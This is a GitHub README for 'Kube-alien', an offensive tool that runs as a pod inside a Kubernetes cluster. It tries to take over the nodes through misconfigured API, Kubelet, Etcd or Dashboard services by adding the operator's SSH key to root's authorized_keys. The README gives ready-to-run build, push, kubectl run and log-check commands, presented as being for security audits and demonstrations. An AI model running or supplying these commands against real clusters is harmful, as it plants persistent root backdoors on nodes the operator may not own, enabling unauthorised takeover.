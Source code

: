 # Kube-alien

This tool launches attack on k8s cluster from within. That means you already need to have an access with permission to deploy pods 
in a cluster to run it. After running the kube-alien pod it tries to takeover cluster's nodes by adding your public key to node's 
/root/.ssh/authorized_keys file by using this image https://github.com/nixwizard/dockercloud-authorizedkeys (Can be adjusted using 
ADD_AUTHKEYS_IMAGE param in config.py) forked from docker/dockercloud-authorizedkeys.
The attack succeedes if there is a misconfiguration in one of the cluster's components it goes along the following vectors:

- Kubernetes API
- Kubelet service
- Etcd service
- Kubernetes-Dashboard

What is the purpose of this tool? 
- While doing security audit of a k8s cluster one can quickly assess it's security posture.
- Partical demostration of the mentioned attack vectors exploitation.

How can k8s cluster be attacked from within in a real life?
- RCE or SSRF vunerability in an app which is being run in one of your cluster's pods.

# Usage
Kube-alien image should be pushed to your dockerhub(or other registry) before using with this tool.
```
git clone https://github.com/nixwizard/kube-alien.git
cd kube-alien
docker build -t ka ./
docker tag ka YOUR_DOCKERHUB_ACCOUNT/kube-alien:ka
docker push YOUR_DOCKERHUB_ACCOUNT/kube-alien:ka
```
The AUTHORIZED_KEYS env required to be set to the value of your ssh public key, in case of success the public key will be added to all 
node's root's authorized_keys file.
```
kubectl run --image=YOUR_DOCKERHUB_ACCOUNT/kube-alien:ka kube-alien --env="AUTHORIZED_KEYS=$(cat ~/.ssh/id_rsa.pub)" --restart Never
```
or you may use my image for quick testing purpose:
```
kubectl run --image=nixwizard/kube-alien kube-alien:ka --env="AUTHORIZED_KEYS=$(cat ~/.ssh/id_rsa.pub)" --restart Never
```
Check Kube-alien pod's logs to see if attack was successful:
```
kubectl logs $(kubectl get pods| grep alien|cut -f1 -d' ')
```

# The following resources helped me a lot in creating this tool
- https://www.youtube.com/watch?v=vTgQLzeBfRU
- https://www.youtube.com/watch?v=dxKpCO2dAy8 (and other awesome posts on kubernetes attack surface at https://raesene.github.io)
- https://medium.com/handy-tech/analysis-of-a-kubernetes-hack-backdooring-through-kubelet-823be5c3d67c
